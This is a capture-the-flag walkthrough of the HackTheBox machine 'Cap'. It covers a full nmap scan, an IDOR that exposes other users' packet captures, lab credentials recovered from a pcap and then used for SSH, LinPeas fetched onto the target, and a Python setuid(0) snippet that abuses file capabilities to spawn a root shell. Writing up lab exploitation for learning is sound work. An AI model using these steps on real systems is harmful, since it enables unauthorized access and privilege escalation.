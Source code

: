 #  HackTheBox — Cap Walkthrough

## 🧭 Enumeration

We'll begin by scanning all ports using `Nmap`. You can also use `rustscan` if you prefer speed.

### 📡 Full TCP Nmap Scan

```bash
nmap -T4 -A -p- 10.10.10.245
```

```bash
Nmap scan report for 10.10.10.245
Host is up (0.26s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp   open  http       Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
8888/tcp open  tcpwrapped
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   256.02 ms 10.10.14.1
2   256.16 ms 10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 793.62 seconds
```


FTP(21), SSH(22), HTTP(80) ports are open on this machine,
lets check out the HTTP service 


![Screenshot From 2025-06-11 16-11-08](https://github.com/user-attachments/assets/a8bb77a8-3004-4b03-a818-d1bec41fade2)

## IDOR
In the security snapshot section, we notice that the value of the `/data/id` increments everytime, this could mean we are able to view packet captures of other users. This is known as Insecure Direct Object Reference (IDOR), wherein a user can 
access data owned by another user

![Screenshot From 2025-06-11 16-14-56](https://github.com/user-attachments/assets/0d9bd8ad-458d-4bea-889c-0b84c9fb5401)


I tried `/data/0` and found multiple packets 

![Screenshot From 2025-06-11 16-18-32](https://github.com/user-attachments/assets/4a0044f5-8915-4369-9028-6ff4b29cc9b8)

We shall download the 0.pcap file and analyse it using wireshark

![Screenshot From 2025-06-11 16-21-11](https://github.com/user-attachments/assets/9837909f-a78b-42bc-bf0a-8cf888abd89e)

This part looks interesting, It seems to be a password to either FTP or SSH services
```bash
username: nathan
password: Buck3tH4TF0RM3!
```

I used the credentials for FTP and it worked!

![Screenshot From 2025-06-11 16-24-59](https://github.com/user-attachments/assets/098a17ec-46f3-4d1b-a4cf-35a0d680c966)

It worked for SSH as well

![Screenshot From 2025-06-11 16-28-11](https://github.com/user-attachments/assets/3dacc215-eddb-478f-a476-390b34a851fe)

now we have a shell in the system : D

![Screenshot From 2025-06-11 16-30-33](https://github.com/user-attachments/assets/e3cd4816-c596-4e83-9606-2b3144fe8a2b)

the user flag in user.txt is in plain sight


## 💂 Privelege Escalation

We shall use LinPeas.sh to escalate priveleges in this machine and gain root access, but LinPeas is not provided in the machine, hence I shall host it using a python http server on my Kali box and simply `cURL` it in the machine


![Screenshot From 2025-06-11 16-37-16](https://github.com/user-attachments/assets/d3306b3d-3b81-4c75-ae63-69f455da1bb6)

Now we can `curl` it to the machine !

![Screenshot From 2025-06-11 16-37-01](https://github.com/user-attachments/assets/dad6016b-0271-4f7a-914e-7ac92e0f7ad8)

we take a look at the "Files with capabilities" section of the linpeas output and find this

![Screenshot From 2025-06-11 16-42-35](https://github.com/user-attachments/assets/cb178f31-14c6-4403-a5da-6b821d0b0c44)

![Screenshot From 2025-06-11 16-46-07](https://github.com/user-attachments/assets/b4979a1d-99ae-4207-9d68-569c2fa4325b)

This lets us change UID to 0 i.e root

we run the python script with the following code:
``` bash
import os
os.setuid(0)
os.system("/bin/bash")
```
![Screenshot From 2025-06-11 16-49-26](https://github.com/user-attachments/assets/7c7e46ac-54e1-4284-a7c1-1fe61fe4a423)

Now that we've gained root access, we shall move to the root dircetory and find the root flag!

![Screenshot From 2025-06-11 16-52-12](https://github.com/user-attachments/assets/c6a123ef-92f5-4ea1-ae1d-2a4e3998e777)


Happy Hacking!!!
                                                              

